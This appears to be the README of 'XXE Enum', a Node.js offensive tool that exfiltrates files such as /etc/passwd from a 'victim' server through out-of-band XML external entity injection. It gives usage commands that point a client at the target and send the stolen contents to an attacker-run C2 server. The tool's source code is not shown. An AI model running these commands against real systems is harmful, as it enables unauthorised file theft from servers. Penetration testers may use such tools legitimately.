 # XXE Enum
Enumerate and exfiltrate files via out of band XXE, for situations where resolved entity is not displayed in the response, and directory listing is not available.

client.js would take a list of filenames, try exfiltrate the content of those files via XXE from your main target server, and server.js would serve external DTDs and receive the exfiltrated file content.

If other servers are parsing XML stored in your main target at a later time, you could also configure your server to serve a different DTD to conduct a different action or to track which server that "/etc/passwd" was from.

## Usage
**server.js**

```
$ node server.js -h

Options
        -h			Print this message

        -p <port>		The listening port, e.g. -p 1337, default 8800
        --b64			Use this option if expecting file content to be passed as base64
        --target <target_ip>	Use this option if you want to send different dtds to different servers, 
                e.g. send "send.dtd" only to your main target (target_ip), and send "send-alt.dtd" to any potential second order XXEs
        --https			Use this option if you want to start https server
        --key <key file>	The key file used to start https server, e.g. --key /root/key.pem
        --cert <cert file>	The cert file used to start https server, e.g --cert /root/cert.crt

// out of the box
$ node server.js

// use a different port
$ node server.js -p 1337

// start a https server
$ node server.js -p 1337 --https --key /root/key.pem --cert /root/cert.crt

// serve send.dtd only to 192.168.1.100, while send send-alt.dtd to all other IPs, 
// if they are requesting the external DTD, i.e. vulnerable to XXE
$ node server.js --target 192.168.1.100
```

**client.js**

```
$ node client.js -h

Options
        -h			Print this message

        -u <url>		(Required) the victim page, e.g. -u http://vulnerable.site:8080/page.php?a=1
        -w <wordlist>		(Required) the wordlist to load, e.g. -w /usr/share/wordlists/filenames.txt
        --c2 <url>		(Required) the server where server.js is run and waiting for incoming request 
                from victim, e.g. --c2 http://attacker.site:8090

        --proxy <proxy>		The http proxy to go through for all requests, e.g. --proxy http://127.0.0.1:8080
        --base <path>		The base path prefixed to all filenames, e.g. --base "/var/www", default "/"
        --php			Use this option if the server can handle php protocols, i.e. able to encode 
                the file content using base64
        -t <thread>		Indicate how many threads to run simultaneously, e.g. -t 15, default 5
        -v			Verbose output
        --headers <headers>	Additional request headers (besides content-type, content-length, user-agent,
        	and host) in JSON format, e.g. --headers '{"X-CSRF-Token": "awesome_token", 
        	"Cookie": "sid=secret_session; admin=1;"}'
        --body <xml>		The normal POST request body, 
                e.g. --body "<subscribe><email>admin@prisma.id</email><name>admin</name></subscribe>", 
                default: <login><username>admin</username><password>admin1234</password></login>

// minimal
$ node client.js -u http://192.168.1.100/subscribe.php?redirect=1 \
-w /usr/share/wordlists/filenames.txt \
--c2 http://192.168.1.200:8800

// full blown
$ node client.js -u http://192.168.1.100/subscribe.php?redirect=1 \
-w /usr/share/wordlists/filenames.txt --c2 http://192.168.1.200:8800 \
--proxy http://127.0.0.1:8080 --base "/var/www" -t 15 --php -v \
--headers '{"Cookie": "sid=secret_session; admin=5;", "Referer": "http://192.168.1.100/index.php"}' \
--body "<subscribe><email>admin@prisma.id</email><name>admin</name></subscribe>"
```

## TODO
- https proxy not working. Only http proxy atm


### Contact us
<li><a href="master@itsecurity.id">Emails</a></li>
<li><a href="https://itsecurity.id">Master Of ITSecurity</a></li>
</i></h5></left>